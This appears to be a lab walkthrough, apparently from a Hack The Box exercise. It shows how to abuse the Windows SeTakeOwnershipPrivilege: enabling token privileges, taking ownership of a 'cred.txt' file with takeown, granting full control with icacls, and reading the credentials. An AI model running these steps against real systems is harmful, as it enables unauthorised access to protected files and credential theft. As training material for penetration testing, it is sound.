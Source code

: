 ##  What is SeTakeOwnershipPrivilege?

This privilege allows a user to:
- Take ownership of any **securable object** (files, folders, registry keys, etc.)
- Change the **owner** of an object using `WRITE_OWNER` permission

 By default, only **Administrators** have this right.

 It is rare for regular users to have this, but **backup accounts** or **misconfigured users** may have it.
##  Why is it Useful?
If you can take ownership of a file:
- You can change its **Access Control List (ACL)**.
- You can grant yourself **Full Control**.
- You can read **sensitive files** (like `cred.txt` or `web.config`).
### Step 1: Check Privileges
```bash
whoami /priv 
```
Look for `SeTakeOwnershipPrivilege `
Even if **Disabled**, you can **enable** it.
###  Step 2: Enable the Privilege (if needed)
1. Download & Import the script:
```bash
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```
2. Confirm it's now enabled:
```bash
whoami /priv
```

###  Step 3: Choose a Target File
Assume the file is:
C:\Department Shares\Private\IT\cred.txt
Check its details:
```bash
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select FullName, LastWriteTime, Attributes, @{Name="Owner"; Expression={(Get-Acl $_.FullName).Owner}}
```
###  Step 4: Take Ownership
```bash
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```
 You should see:
SUCCESS: The file [...] now owned by user [...]

###  Step 5: Confirm New Owner
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Name, Directory, @{Name="Owner"; Expression={(Get-Acl $_.FullName).Owner}}
```
###  Step 6: Grant Yourself Full Permissions
```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
> Replace `htb-student` with your username if different.

###  Step 7: Read the File
```
cat 'C:\Department Shares\Private\IT\cred.txt'
```
